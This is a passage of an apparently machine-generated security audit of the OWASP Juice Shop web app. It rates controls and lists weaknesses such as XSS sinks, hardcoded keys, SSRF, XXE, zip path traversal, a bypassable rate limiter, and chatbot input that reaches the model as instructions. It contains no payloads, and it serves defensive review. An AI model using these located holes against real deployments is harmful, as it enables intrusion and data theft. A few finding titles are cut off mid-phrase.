**Assessment:** Default escaping is undone at specific sinks: the sanitizer is bypassed in several components (🟠 [F-001](#f-001), 🟡 [F-093](#f-093), 🟡 [F-094](#f-094), 🟡 [F-095](#f-095)), and model setters skip sanitization on one branch (🟡 [F-087](#f-087)).

<a id="output-encoding-and-client-side-rendering"></a>
#### 6.7.1 Output Encoding and Client-Side Rendering

**Status:** 🟠 Weak - escaping applies by default, but several components render untrusted values as trusted HTML.

Page content is escaped before it reaches the browser by default. Feedback, product, admin and login-history views are the surfaces that opt out.

**Security assessment**

Several views deliberately switch off escaping for values that users can control. Feedback comments, product descriptions and user emails are rendered as trusted HTML (🟠 [F-001](#f-001), 🟡 [F-095](#f-095), 🟡 [F-093](#f-093)), and the last-login IP is a DOM XSS sink (🟡 [F-094](#f-094)). Model setters in `models/product.ts` skip HTML sanitization on a challenge branch (🟡 [F-087](#f-087)).

**Relevant findings**

- 🟠 [F-001](#f-001) — Angular sanitizer bypass causes XSS in about, search, administration
- 🟡 [F-087](#f-087) — Model setters skip HTML sanitization on challenge branch
- 🟡 [F-093](#f-093) — User emails rendered as trusted HTML in admin
- 🟡 [F-094](#f-094) — DOM XSS
- 🟡 [F-095](#f-095) — Stored XSS risk from trusted product

### 6.8 Browser and Cross-Origin Controls

**Verdict:** 🟠 Weak - page-level hardening is thin, and cross-origin protections are hardcoded.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.8.1 Static page hardening / CSP](#681-static-page-hardening--csp)
- [6.8.2 WebSocket CORS origin restriction](#682-websocket-cors-origin-restriction)

**Implemented controls:** Static page hardening / CSP, WebSocket CORS origin restriction.

**Assessment:** `index.html` has no CSP and the WebSocket CORS origin is a fixed localhost value. CSRF protection is also missing on a cookie-authenticated update (🟡 [F-080](#f-080)) and on the OAuth flow (🟡 [F-075](#f-075)). Server response headers were not inspected.

**Findings in this category without a control:**

- 🟡 [F-075](#f-075) — OAuth implicit flow without state parameter
- 🟡 [F-080](#f-080) — Cookie-authenticated profile update lacks

<a id="static-page-hardening-csp"></a>
#### 6.8.1 Static page hardening / CSP

**Status:** 🟠 Weak - no CSP meta tag, an inline script, and external font links without SRI.

`index.html` is the single page served to the browser, loading Google fonts and an inline script.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): index.html has no CSP meta tag, an inline script, and external Google font links without SRI. Response headers set by the server were not inspected. -->
Browser-side hardening is absent in the static page:

- No CSP meta tag is present, so injected script would run.
- External Google font links carry no SRI.
- Server response headers were not inspected, so a header-level CSP is unverified.
- The cookie-authenticated profile update lacks CSRF protection (🟡 [F-080](#f-080)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="websocket-cors-origin-restriction"></a>
#### 6.8.2 WebSocket CORS origin restriction

**Status:** 🟠 Weak - CORS is pinned to one hardcoded localhost origin and does not stop non-browser clients.

The Socket\.IO server sets CORS to a single origin, `http://localhost:4200`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): CORS is restricted to a single hardcoded origin, http://localhost:4200. This is not configurable per deployment. CORS does not stop non-browser clients from connecting, and no per-connection Origin validation beyond the CORS setting was observed. -->
The origin setting is not a connection control:

- The value is hardcoded, so it cannot be set per deployment.
- CORS does not stop non-browser clients from connecting.
- No per-connection Origin check beyond the CORS setting was observed.

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.9 Cryptography Secrets and Data Protection


**Systemic weaknesses:** [W-044](#w-044)
**Verdict:** 🟠 Weak - secrets are committed in source, password hashes are unsalted `MD5`, and the database file has no protection of its own.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.9.1 Outbound webhook payload protection](#691-outbound-webhook-payload-protection)
- [6.9.2 Embedded SQLite database configuration](#692-embedded-sqlite-database-configuration)
- [6.9.3 Alchemy API key handling for WebSocket RPC](#693-alchemy-api-key-handling-for-websocket-rpc)
- [6.9.4 Embedded SQLite database access protection](#694-embedded-sqlite-database-access-protection)
- [6.9.5 Credentials embedded in source](#695-credentials-embedded-in-source)

**Implemented controls:** Outbound webhook payload protection, Embedded SQLite database configuration, Alchemy API key handling for WebSocket RPC, Embedded SQLite database access protection, Credentials embedded in source.

**Assessment:** Key material and credentials sit in source (🟠 [F-048](#f-048)), tokens use a non-cryptographic RNG (🟠 [F-018](#f-018)), and key files are served publicly (🟠 [F-039](#f-039)). Password hashing is covered in [§6.2](#62-identity-and-authentication-controls) (🟠 [F-047](#f-047) (Unsalted `MD5` password hashing and no strength policy)). The SQLite file has no database-level authentication or encryption at rest.

**Findings in this category without a control:**

- 🟠 [F-018](#f-018) — Non-cryptographic RNG for a secret/token
- 🟠 [F-039](#f-039) — Unauthenticated key and log file exposure
- 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets

<a id="outbound-webhook-payload-protection"></a>
#### 6.9.1 Outbound webhook payload protection

**Status:** 🟠 Weak - payloads are sent unsigned and unauthenticated to a URL taken from the environment.

The server posts the CTF flag and host details to a webhook URL configured by an environment variable.

The diagram shows the intended webhook delivery:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The webhook is configured by an environment variable. The server posts the CTF flag and host details with no signing, no authentication and no HTTPS enforcement. The URL is logged. -->
Delivery carries sensitive data with no protection:

- The payload has no signature, so the receiver cannot verify its origin.
- No authentication or HTTPS enforcement applies to the URL.
- The URL is written to the log.


**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="embedded-sqlite-database-configuration"></a>
#### 6.9.2 Embedded SQLite database configuration

**Status:** 🟠 Weak - placeholder credentials that SQLite ignores mean no database authentication.

<!-- Model implementation note (facts for the intro): models/index.ts:33-43 createSequelize -->
`models/index.ts` `createSequelize` opens an embedded SQLite file at `data/juiceshop.sqlite`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Sequelize opens an embedded SQLite database with placeholder credentials ('database'/'username'/'password'), which SQLite ignores, so there is no database-level authentication. The data is stored in a plain file at data/juiceshop.sqlite. In this inspected slice there is no encryption at rest and no file-permission enforcement. Access control depends entirely on the application process and the host filesystem. Only models/index.ts was inspected. Model setters and query construction in the other model files were not reviewed. -->
Protection rests entirely on the host:

- The credentials `database`, `username` and `password` are placeholders that SQLite ignores.
- No encryption at rest or file-permission enforcement is configured in this file.
- Sensitive card and TOTP data stored in the file is unencrypted (🟡 [F-111](#f-111)).
- Only `models/index.ts` was inspected.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="alchemy-api-key-handling-for-websocket-rpc"></a>
#### 6.9.3 Alchemy API key handling for WebSocket RPC

**Status:** 🟡 Partial - the key is read from the environment over `wss`, but it sits in the URL path.

The Web3 listener reads the Alchemy API key from the environment and connects over `wss`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The key is read from the environment rather than hardcoded, and the connection uses wss. It falls back to an empty string, and the key is embedded in the URL path, which can leak through logs or error messages. -->
The key handling is better than hardcoding, with two gaps:

- It falls back to an empty string when unset.
- The key is embedded in the URL path, which can leak through logs or error messages.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="embedded-sqlite-database-access-protection"></a>
#### 6.9.4 Embedded SQLite database access protection

**Status:** 🟠 Weak - the engine has no authentication, and no at-rest encryption is configured.

<!-- Model implementation note (facts for the intro): models/index.ts:33-41 createSequelize with dialect sqlite and storage data/juiceshop.sqlite -->
`models/index.ts` configures Sequelize with dialect sqlite and storage `data/juiceshop.sqlite`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Sequelize opens a file-based SQLite database at data/juiceshop.sqlite with placeholder credentials ('username'/'password'), which SQLite ignores. The engine has no authentication, and no at-rest encryption is configured in this file. Protection relies on filesystem permissions and process isolation, which were not inspected. Confidential relational data (flow df-007) is therefore protected only by the host environment. -->
Confidential relational data depends on the host:

- SQLite has no authentication, and the `username`/`password` values are ignored.
- No at-rest encryption is configured in this file.
- Filesystem permissions and process isolation were not inspected.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="credentials-embedded-in-source"></a>
#### 6.9.5 Credentials embedded in source

**Status:** 🟠 Weak - plaintext account passwords are committed in the challenge-checking code.

<!-- Model implementation note (facts for the intro): routes/login.ts:59-65 verifyPreLoginChallenges -->
`routes/login.ts` `verifyPreLoginChallenges` compares logins against hardcoded passwords for several accounts.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Plaintext account passwords for several accounts, including a support account and an OAuth user, are hardcoded in the challenge-checking code. They are committed in the repository, so anyone with source access can read them. -->
Anyone with source access can read these credentials:

- The accounts include a support account and an OAuth user.
- The signing key and HMAC secrets are also in source (🟠 [F-048](#f-048)).
- Key and log files are served without authorization (🟠 [F-039](#f-039)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.10 File Parser and Outbound Request Controls

<a id="ctrl-file-parser-and-outbound-request-controls"></a>


**Systemic weaknesses:** [W-001](#w-001), [W-005](#w-005), [W-039](#w-039), [W-040](#w-040), [W-041](#w-041), [W-042](#w-042), [W-043](#w-043)
**Verdict:** 🔴 Missing - no restriction exists on outbound fetches, parsers or public file routes.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.10.1 Outbound URL fetch restrictions](#6101-outbound-url-fetch-restrictions)

<!-- Mechanically derived: every control of this category is Missing. Renderer must not rewrite the line below. -->
**Implemented controls:** No control in this category is evidenced in the repository.

**Assessment:** Server-side fetch, XML parsing, archive extraction and file serving all take untrusted input without limits: SSRF (🟠 [F-044](#f-044)), external-entity parsing (🟠 [F-029](#f-029), 🟠 [F-040](#f-040)), zip path traversal (🟠 [F-024](#f-024)), arbitrary file read (🟠 [F-023](#f-023)) and public key and log routes (🟠 [F-039](#f-039), 🟡 [F-105](#f-105), 🟡 [F-106](#f-106)).

**Findings in this category without a control:**

- 🔴 [F-012](#f-012) — Code injection
- 🟠 [F-023](#f-023) — Arbitrary server file read
- 🟠 [F-024](#f-024) — Zip entry path traversal on complaint upload
- 🟠 [F-025](#f-025) — Request body orderLinesData evaluated by notevil in vm
- 🟠 [F-029](#f-029) — XML parser resolves external entities and DTDs
- 🟠 [F-037](#f-037) — User-controlled username compiled as Pug template
- 🟠 [F-040](#f-040) — XML external entity expansion in upload parser
- 🟠 [F-041](#f-041) — XML parser resolves external entities in uploads
- 🟠 [F-044](#f-044) — Server-side request forgery in profile
- 🟠 [F-046](#f-046) — Password reset response returns full user record
- 🟡 [F-079](#f-079) — Redirect allowlist bypass
- 🟡 [F-096](#f-096) — Null byte bypasses FTP file type allow-list
- 🟡 [F-099](#f-099) — Unauthenticated memories list returns user records
- 🟡 [F-100](#f-100) — Unauthenticated application configuration endpoint
- 🟡 [F-105](#f-105) — Log files served to any caller
- 🟡 [F-106](#f-106) — Encryption keys folder listed and served publicly
- 🟡 [F-113](#f-113) — Challenge flags replayed to every connecting
- 🟡 [F-114](#f-114) — User listing exposes sensitive fields to any
- 🟡 [F-123](#f-123) — Open redirect

<a id="outbound-url-fetch-restrictions"></a><a id="outbound-url-fetch-restrictions-profile-image-url"></a>
#### 6.10.1 Outbound URL fetch restrictions

**Status:** 🔴 Missing - the server fetches any user-supplied URL with no scheme, host or private-range allowlist.

This control is not evidenced in the repository.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The server fetches a user-supplied URL with no scheme, host or private-range allowlist. Only a login check gates it. On fetch failure the raw URL is stored as the profile image. -->
Only a login check gates the fetch:

- The profile image URL is requested server-side, enabling SSRF (🟠 [F-044](#f-044)).
- On fetch failure the raw URL is stored as the profile image.
- The redirect allowlist can be bypassed, and an open redirect exists (🟡 [F-079](#f-079), 🟡 [F-123](#f-123)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.11 Operations Runtime and Supply Chain Controls

**Build path.** [Figure 1b](#figure-1b) shows the inputs, build systems and release artifacts that Juice Shop evidences.

Highlighted path of 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled: npm registry → GitHub Actions → docker.io/bkimminich/juice-shop. The path stops where the evidence ends.

**Attack entries:**

- **Manipulated dependency**
  - 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled
  - 🟡 [F-091](#f-091) — Release packaging installs dependencies without lockfile
- **Manipulated CI input**
  - 🟡 [F-090](#f-090) — Mutable third-party GitHub Action references
  - 🟡 [F-092](#f-092) — Container base images referenced by tag not digest
- **Replaced release artifact**
  - 🟡 [F-088](#f-088) — Missing Container Image Signing

**Not attributable to a build step:**

- 🟡 [F-120](#f-120) — Container Runs as Root


**Systemic weaknesses:** [W-027](#w-027), [W-028](#w-028), [W-045](#w-045)
**Verdict:** 🔴 Missing - build and dependency controls have gaps, and rate limiting can be bypassed.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.11.1 Rate limiting](#6111-rate-limiting)
- [6.11.2 HTTP access logging](#6112-http-access-logging)
- [6.11.3 GitHub Actions pinned by commit SHA](#6113-github-actions-pinned-by-commit-sha)
- [6.11.4 Release credential handling and workflow secrets](#6114-release-credential-handling-and-workflow-secrets)
- [6.11.5 Container image build hardening](#6115-container-image-build-hardening)
- [6.11.6 SQLite concurrency retry and transaction mode](#6116-sqlite-concurrency-retry-and-transaction-mode)
- [6.11.7 Build pipeline and dependency controls](#6117-build-pipeline-and-dependency-controls)

**Implemented controls:** Rate limiting, HTTP access logging, GitHub Actions pinned by commit SHA, Release credential handling and workflow secrets, Container image build hardening.

**Assessment:** Container hardening and SHA-pinned actions hold, but dependency installs are not locked (🟡 [F-091](#f-091)), images are tagged not digested (🟡 [F-092](#f-092)), workflow permissions are not scoped (🟡 [F-121](#f-121), 🟡 [F-122](#f-122)) and images are unsigned (🟡 [F-088](#f-088)).

**Findings in this category without a control:**

- 🟡 [F-088](#f-088) — Missing Container Image Signing
- 🟡 [F-091](#f-091) — Release packaging installs dependencies without lockfile
- 🟡 [F-120](#f-120) — Container Runs as Root
- 🟡 [F-121](#f-121) — Workflows without explicit least-privilege permissions
- 🟡 [F-122](#f-122) — Missing Workflow Permissions Block

<a id="rate-limiting"></a>
#### 6.11.1 Rate limiting

**Status:** 🟠 Weak - reset-password and 2FA are limited, but the limiter trusts a client header.

<!-- Model implementation note (facts for the intro): server.ts:342-347, 458-475 -->
`server.ts` applies a rate limiter to reset-password and 2FA endpoints, keyed per client.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Reset-password and 2FA endpoints are rate limited, but the key generator trusts the client-supplied X-Forwarded-For header, so limits can be bypassed. Other routes such as login and chat show no limiter here. -->
The limiter can be sidestepped, and key routes lack one:

- The key generator trusts the client-supplied `X-Forwarded-For` header, so limits can be bypassed.
- Login and chat show no limiter (🟡 [F-077](#f-077), 🟠 [F-049](#f-049)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="http-access-logging"></a>
#### 6.11.2 HTTP access logging

**Status:** 🟡 Partial - logs are written and rotated, but they are served publicly.

<!-- Model implementation note (facts for the intro): server.ts:281-283, 330-338, 676 -->
Morgan in `server.ts` writes daily-rotated access logs with 2-day retention.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Morgan writes daily-rotated access logs with 2-day retention. The logs directory is served publicly via directory listing at /support/logs, and /metrics is unauthenticated. -->
The log store is exposed:

- The logs directory is served with directory listing at `/support/logs` (🟡 [F-105](#f-105)).
- `/metrics` is unauthenticated (🟡 [F-103](#f-103)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="github-actions-pinned-by-commit-sha"></a>
#### 6.11.3 GitHub Actions pinned by commit SHA

**Status:** 🟡 Partial - third-party actions are SHA-pinned, but some references and installs stay mutable.

`ci.yml` and `release.yml` pin third-party actions to full commit SHAs.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Third-party actions in ci.yml and release.yml are pinned to full commit SHAs, limiting tag-hijack risk. However, release.yml uses an archived action (dawidd6/action-get-tag) in the release path, and release installs CLI tools via unpinned semver ranges (npm install -g with ranges), and npm install without lockfile enforcement (npm install rather than npm ci). -->
Pinning is incomplete:

- Other action references use a mutable tag or branch (🟡 [F-090](#f-090)).
- `release.yml` uses an archived action in the release path.
- CLI tools install through unpinned semver ranges, and `npm install` replaces `npm ci` (🟡 [F-091](#f-091)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="release-credential-handling-and-workflow-secrets"></a>
#### 6.11.4 Release credential handling and workflow secrets

**Status:** 🟡 Partial - credentials come from GitHub secrets, but token scope and signing are unaddressed.

Registry and Slack credentials come from GitHub secrets, and releases trigger only on `v*` tag pushes.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Registry and Slack credentials come from GitHub secrets, not literals, and release triggers only on v* tag pushes. No explicit least-privilege 'permissions:' block was observed in the inspected ci.yml or release.yml, so the GITHUB_TOKEN scope depends on repository defaults. Releases are created as drafts. Image signing or provenance attestation was not observed in the inspected slices. -->
Secrets are handled sensibly, but token scope is open:

- No explicit least-privilege `permissions:` block appears in the inspected workflows, so `GITHUB_TOKEN` scope follows repository defaults (🟡 [F-121](#f-121), 🟡 [F-122](#f-122)).
- Image signing and provenance attestation were not observed (🟡 [F-088](#f-088)).
- Releases are created as drafts.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="container-image-build-hardening"></a>
#### 6.11.5 Container image build hardening

**Status:** 🟢 Adequate - multi-stage build with a distroless, non-root runtime image.

The `Dockerfile` builds in stages, omits dev dependencies, runs as user 65532 on a distroless image and generates a CycloneDX SBOM.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Multi-stage build with distroless runtime image, non-root user 65532, dev dependencies omitted, and SBOM generation via CycloneDX. Base images are referenced by tag rather than digest, a minor gap. -->
This is the strongest operational control, with one gap:

- Base images are referenced by tag rather than digest (🟡 [F-092](#f-092)).
- A separate finding reports the container running as root (🟡 [F-120](#f-120)), which conflicts with the non-root user in the build and needs reconciling.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="sqlite-concurrency-retry-and-transaction-mode"></a>
#### 6.11.6 SQLite concurrency retry and transaction mode

**Status:** 🟡 Partial - concurrency handling is sound, but no database audit trail or backup was observed.

<!-- Model implementation note (facts for the intro): models/index.ts:35-42 retry, transactionType, logging settings -->
`models/index.ts` retries on `SQLITE_BUSY` up to 5 times and uses IMMEDIATE transactions.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Retries on SQLITE_BUSY (max 5) and uses IMMEDIATE transactions, which supports integrity and availability under concurrent writes. Query logging is disabled (logging: false), so this file provides no database-level audit trail. No backup or recovery control was observed here. -->
Integrity under concurrent writes is covered, and audit is not:

- Query logging is disabled (`logging: false`), so there is no database-level audit trail.
- No backup or recovery control was observed in this file.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="build-pipeline-and-dependency-controls"></a>
#### 6.11.7 Build pipeline and dependency controls

**Status:** 🔴 Missing - gaps in Lockfile hygiene, CI install integrity, Action pinning, Base image pinning, Install scripts

<!-- Model implementation note (facts for the intro): In place: Automated SCA scanning, Action pinning, Static analysis (SAST) -->
SCA scanning and CodeQL run in CI, and action pinning is partly in place. Dependency and image handling is split across `ci.yml`, `release.yml` and the `Dockerfile`.

- **Automated SCA scanning** — 🟢 Adequate. Automated SCA scanning present: `.gitlab-ci.yml:2`.
- **Automated dependency updates** — Not evidenced in the repository; it may run outside it (GitHub App, default setup, organization policy, agent).
- **Lockfile hygiene** — 🔴 Missing. Lockfile hygiene not detected in the repository (.gitignore:10, .npmrc:1).
- **CI install integrity** — 🔴 Missing. CI installs dependencies by resolving versions at install time: `.github/workflows/ci.yml:36`, `.github/workflows/ci.yml:38`, `.github/workflows/ci.yml:51`.
- **Action pinning** — 🟡 Partial. Some CI action or image references use a mutable tag or branch: `.github/workflows/ci.yml:188`, `.github/workflows/codeql-analysis.yml:23`, `.github/workflows/codeql-analysis.yml:34`. → 🟡 [F-090](#f-090) — Mutable third-party GitHub Action references
- **Base image pinning** — 🔴 Missing. Base images use no tag or a mutable tag: `Dockerfile:1`, `Dockerfile:22`, `test/smoke/Dockerfile:1`. → 🟡 [F-092](#f-092) — Container base images referenced by tag not digest
- **Install scripts** — 🟠 Weak. A build step executes code fetched from an external URL: `.github/workflows/ci.yml:358`. → 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled
- **Static analysis (SAST)** — 🟢 Adequate. Static analysis runs in CI: `.github/workflows/codeql-analysis.yml:36`, `.gitlab-ci.yml:2`.

**Security assessment**

Gaps: Lockfile hygiene (Missing), CI install integrity (Missing), Action pinning (Partial), Base image pinning (Missing), Install scripts (Weak). Not evidenced in the repository: Automated dependency updates.

**Relevant findings**

- 🟡 [F-090](#f-090) — Mutable third-party GitHub Action references
- 🟡 [F-092](#f-092) — Container base images referenced by tag not digest
- 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled

### 6.12 Real-time and Not Applicable Controls

**Verdict:** 🔴 Missing - Socket\.IO accepts every connection without authentication.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.12.1 Socket\.IO connection](#6121-socketio-connection)

**Implemented controls:** Socket\.IO connection.

**Assessment:** Recon found `Socket.IO` in use, so this is not a not-applicable domain. The connection handler accepts all clients (🟡 [F-076](#f-076)), replays challenge flags to them (🟡 [F-113](#f-113)) and takes untyped payloads (🟡 [F-116](#f-116)).

<a id="socketio-connection"></a>
#### 6.12.1 Socket\.IO connection

**Status:** 🟠 Weak - the socket connects with no authentication token.

The Real-time WebSocket Channel runs on `Socket.IO` and pushes stored challenge notifications to each new socket on connect.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The socket connects with no authentication token. Server-side event handling was not inspected here. -->
Connection access is open:

- No auth middleware is present on the connection handler (🟡 [F-076](#f-076)).
- Stored flags are sent to every connecting client (🟡 [F-113](#f-113)).
- Server-side event handling beyond the handler file was not inspected.

**Relevant findings**

- None.

_Additional cataloged controls without a dedicated subsection (no implementation prose and no linked findings): WebSocket connection authentication._

### 6.13 Defense-in-Depth Summary

<!-- §6.13 FORMAT — NEVER a table, at most 120 words, no file:line. Two short bullet lists: **What holds** (the individual positive controls that exist, strongest first, e.g. distroless runtime image, RS256 algorithm choice) and **Repair first** (the control-boundary repairs that would restore layered defense, each with its mitigation link [M-NNN](#m-nnn)). Do NOT emit a Markdown table — `| header |` lines under §6.13 are a contract violation. -->

**What holds**

- Distroless, non-root container runtime image.
- SHA-pinned third-party GitHub Actions.
- SCA and CodeQL scanning in CI.
- Angular default template escaping.

**Repair first**

- Parameterize the login and search queries (🔴 [F-011](#f-011), 🔴 [F-004](#f-004)).
- Move signing keys out of source and pin the JWT algorithm (🟠 [F-048](#f-048), 🟡 [F-078](#f-078)).
- Add server-side ownership checks and authentication middleware (🟠 [F-002](#f-002), 🟠 [F-059](#f-059)).

---

<a id="weakness-register"></a>
## 7. Weakness Register

Systemic control gaps behind the findings, ordered by severity (W-001 = most severe). Each weakness names the missing, home-grown, or misused control, the findings that evidence it, the components it spans, and its remediation. A weakness may also rest on observed unsafe practice or an absent architectural control with no confirmed exploit - only confirmed findings carry a CVSS score.

- 🔴 Critical · [W-001](#w-001) - Application data crosses into executable code · confirmed · 2 findings · 1 component
- 🔴 Critical · [W-002](#w-002) - Database access relies on concatenated queries · confirmed · 2 findings · 2 components
- 🟠 High · [W-003](#w-003) - Authentication relies on hand-rolled token verification · confirmed · 6 findings · 4 components
- 🟠 High · [W-004](#w-004) - Endpoints are reachable without enforced authentication · confirmed · 4 findings · 3 components
- 🟠 High · [W-005](#w-005) - Input handling lacks enforced boundary validation · confirmed · 4 findings · 2 components
- 🟠 High · [W-006](#w-006) - Document-database queries take their structure from application values · confirmed · 2 findings · 1 component
- 🟠 High · [W-007](#w-007) - Authorization is implemented route by route · confirmed · 23 findings · 3 components
- 🟠 High · [W-008](#w-008) - Privileged attributes lack an enforced write allowlist · observed-practice · 4 findings · 1 component
- 🟠 High · [W-009](#w-009) - Browser scripts retain reusable session credentials · observed-practice · 1 finding · 1 component
- 🟠 High · [W-010](#w-010) - Frontend rendering lacks enforced output encoding · design-risk · 5 findings · 2 components
- 🟡 Medium · [W-011](#w-011) - No brute-force protection on login handler (`login.ts:32`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-012](#w-012) - Password reset relies on guessable security answer with bypassable rate limit · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-013](#w-013) - Event loop blocked by busy-wait sleep in review queries · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-014](#w-014) - Chat endpoint has no request or consumption limits (`chat.ts:191`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-015](#w-015) - Unbounded wallet address set on unauthenticated route (`web3Wallet.ts:16`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-016](#w-016) - Unbounded attacker-controlled wallet set growth (`web3Wallet.ts:16`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-017](#w-017) - Application data builds operating-system commands · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-018](#w-018) - Application data crosses into template source · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-019](#w-019) - Stored reviews and username reach chatbot context as instructions (`chat.ts:149`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-020](#w-020) - XML parser resolves external entities and DTDs (`xml.ts:35`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-021](#w-021) - XML external entity expansion in upload parser (`xml.ts:35`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-022](#w-022) - Workflows without explicit least-privilege permissions (`ci.yml:1`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-023](#w-023) - Missing Workflow Permissions Block · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-024](#w-024) - CORS allows all origins on every route (`server.ts:183`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-025](#w-025) - OAuth sign-in requests are not bound to the user's browser session · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-026](#w-026) - Cookie-authenticated changes lack request authenticity checks · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-027](#w-027) - Container base images referenced by tag not digest (`Dockerfile:1`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-028](#w-028) - Untrusted npm Install/Postinstall Scripts Enabled · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-029](#w-029) - Password reset response returns full user record (`resetPassword.ts:46`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-030](#w-030) - Unauthenticated memories list returns user records (`memory.ts:24`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-031](#w-031) - Unauthenticated application configuration endpoint (`server.ts:607`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-032](#w-032) - User listing exposes sensitive fields to any authenticated user · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-033](#w-033) - Confidential discount rule embedded in chatbot system prompt (`routes/chat.ts:105` · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-034](#w-034) - LLM provider error details echoed to chat clients (`chat.ts:255`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-035](#w-035) - Card numbers and TOTP secrets stored unencrypted (`card.ts:38`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-036](#w-036) - Webhook URL logged in cleartext (`webhook.ts:40`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-037](#w-037) - OAuth access token passed in URL fragment and query string (`user.service.ts:68`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-038](#w-038) - Passwords sent in GET query string during password change (`user.service.ts:54`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-039](#w-039) - Fetched profile image stored without size or type check · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-040](#w-040) - Memory image upload without size limit or content check (`server.ts:698`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-041](#w-041) - Log files served to any caller (`logfileServer.ts:14`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-042](#w-042) - Encryption keys folder listed and served publicly (`server.ts:277`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-043](#w-043) - Redirect allowlist bypass through substring match (`insecurity.ts:136`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-044](#w-044) - Security-sensitive data uses weak cryptographic primitives · observed-practice · 4 findings · 3 components
- 🟡 Medium · [W-045](#w-045) - Build pipeline trusts mutable third-party references · design-risk · 2 findings · 1 component
